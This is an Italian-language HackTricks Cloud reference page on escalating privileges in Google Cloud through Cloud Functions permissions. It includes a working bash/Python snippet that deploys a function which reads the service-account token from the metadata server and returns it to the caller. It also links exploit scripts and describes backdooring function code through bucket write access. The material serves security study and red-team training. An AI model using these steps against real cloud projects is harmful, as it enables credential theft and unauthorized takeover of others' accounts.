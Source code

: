 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Maggiore informazione su Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaccante con questi privilegi può **creare una nuova Cloud Function con codice arbitrario (maligno) e assegnargli un Service Account**. Poi, leakare il token del Service Account dai metadati per elevare i privilegi.\
Alcuni privilegi per attivare la funzione potrebbero essere richiesti.

Gli script di exploit per questo metodo possono essere trovati [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) e [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) e il file .zip precompilato può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Un attaccante con questi privilegi può **modificare il codice di una Function e persino modificare il service account associato** con l'obiettivo di esfiltrare il token.

{% hint style="danger" %}
Per distribuire le cloud functions avrai anche bisogno di permessi actAs sul service account di calcolo predefinito o sul service account utilizzato per costruire l'immagine.
{% endhint %}

Alcuni privilegi extra come il permesso `.call` per la versione 1 di cloudfunctions o il ruolo `role/run.invoker` per attivare la funzione potrebbero essere richiesti.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Se ricevi l'errore `Permission 'run.services.setIamPolicy' denied on resource...` è perché stai usando il parametro `--allow-unauthenticated` e non hai abbastanza permessi per farlo.
{% endhint %}

Lo script di exploit per questo metodo può essere trovato [qui](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Con questo permesso puoi ottenere un **URL firmato per poter caricare un file in un bucket di funzioni (ma il codice della funzione non verrà modificato, devi comunque aggiornarlo)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Non sono davvero sicuro di quanto sia utile solo questo permesso dal punto di vista di un attaccante, ma è buono da sapere.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Dati a te stesso uno dei precedenti privilegi **`.update`** o **`.create`** per l'escalation.

### `cloudfunctions.functions.update`

Avere solo permessi **`cloudfunctions`**, senza **`iam.serviceAccounts.actAs`**, non ti permetterà di aggiornare la funzione QUINDI QUESTO NON È UN VALIDO PRIVESC. 

### Accesso in lettura e scrittura sul bucket

Se hai accesso in lettura e scrittura sul bucket, puoi monitorare le modifiche nel codice e ogni volta che **si verifica un aggiornamento nel bucket, puoi aggiornare il nuovo codice con il tuo codice** in modo che la nuova versione della Cloud Function venga eseguita con il codice backdoored inviato.

Puoi controllare di più sull'attacco in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Tuttavia, non puoi usare questo per pre-compromettere le Cloud Functions di terze parti perché se crei il bucket nel tuo account e gli dai permessi pubblici in modo che il progetto esterno possa scriverci sopra, ottieni il seguente errore:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Tuttavia, questo potrebbe essere usato per attacchi DoS.
{% endhint %}

### Accesso in lettura e scrittura su Artifact Registry

Quando viene creata una Cloud Function, una nuova immagine docker viene inviata all'Artifact Registry del progetto. Ho provato a modificare l'immagine con una nuova e persino a eliminare l'immagine corrente (e l'immagine `cache`), ma nulla è cambiato, la cloud function continua a funzionare. Pertanto, potrebbe **essere possibile abusare di un attacco di Race Condition** come con il bucket per cambiare il contenitore docker che verrà eseguito, ma **modificare semplicemente l'immagine memorizzata non è possibile per compromettere la Cloud Function**.

## Riferimenti

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
